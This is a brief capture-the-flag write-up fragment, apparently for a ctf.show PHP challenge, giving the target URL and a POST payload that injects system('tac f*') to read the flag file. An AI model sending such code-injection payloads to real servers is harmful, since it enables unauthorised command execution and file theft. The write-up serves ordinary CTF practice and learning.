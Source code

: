 <figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

GET:

```url
http://c8302562-9e80-45b9-8120-88c1b16d2137.challenge.ctf.show/a.php
```

POST:

```url
1=system('tac f*');
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
